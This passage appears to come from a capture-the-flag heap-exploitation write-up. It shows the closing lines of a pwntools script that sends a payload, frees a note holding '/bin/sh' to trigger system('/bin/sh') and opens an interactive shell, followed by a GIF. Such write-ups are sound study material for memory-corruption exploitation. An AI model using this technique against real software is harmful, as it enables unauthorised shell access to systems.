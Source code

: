 ```python
p.sendline(payload)

# free the allocation with "/bin/sh" to call "system('/bin/sh')"
# enjoy your shell >.>
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("30")

p.interactive()

```
<p align="center">
<img src=https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExanVlMGRpYndzcDBxOWtycHFoOHB0bmN0M3IxaWVjN2x1Y3kwbmx6ZCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/GaePqH1aHE95KI0Vt7/giphy.webp>
</p>

